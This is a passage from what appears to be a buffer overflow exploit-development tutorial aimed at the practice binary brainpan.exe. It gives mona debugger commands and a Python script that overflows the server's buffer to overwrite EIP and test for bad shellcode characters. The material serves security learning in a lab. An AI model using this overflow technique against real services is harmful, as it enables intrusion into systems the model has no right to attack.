


# Finding bad characters

When generating a shell code, we need to know what characters are bad or good for the shell code. To speed the process of finding bad characters for our exploit, we will use [mona](https://github.com/corelan/mona "Mona github repository") in ``Immunity Debugger``. First set ``mona`` working directory in ``Immunity Debugger``.

We can set ``mona`` working directory using the following command in ``Immunity Debugger``:

```cli
!mona config -set workingfolder c:\mona
```


We can now generate bad character byte array using ``mona``. Use the following command:

```cli
!mona bytearray -cpb "\x00
```


As we can see in the screenshot above, the bad characters were generated (the byte array can be found in the ``mona`` working directory in a file named ``bytearray.txt``).



Now we can send the bad character array generated by `mona` to our ``brainpan.exe`` TCP server to get the result. The bad character will be  placed after the ``EIP`` is overwritten. I created another script called [brainpan_badchars.py](https://github.com/cris-m/buffer_overflow_exploit_development/blob/main/assets/resources/brainpan_badchars.py).

```python
#!/usr/bin/python3
import sys
import socket
from time import sleep

badchars = (
b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

buffer = b"A" * 510 + b"B" * 4 + badchars

while True:
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect(('192.168.10.4', 9999))
        payload = b'shitstorm /.:/' + buffer
        sock.send(payload)
        sock.close()
    except:
        print("Error connecting to the server")
        sys.exit()
```

I execute the python script and here is the ``Immunity Debugger`` result after following the ``ESP`` dump(to dump the ``ESP``, right-click on the ``ESP`` and from the drop-down menu, select ``Follow in Dump``. It will dump and display all hex characters that we send with our python script).



From the screenshot above, we can see the content of ``ESP`` is ``005FF910``. Now we can use ``mona`` to check for any bad character for our exploit based on the byte array we sent with the python script. We can achieve that using the following ``mona`` command in ``Immunity Debugger``:

```cli

!mona compare -f c:\mona\bytearray.bin -a 005FF910
```

Mona will compare the byte array we generated to the dump of ``ESP``. For ``brainpan.exe``, ``mona`` didn`t find any bad character for the shell code. :heart_eyes: :heart_eyes: :heart_eyes: Here is the result.


___

Next to [Finding the right module](https://github.com/cris-m/buffer_overflow_exploit_development/blob/main/assets/documentations/modules.md)
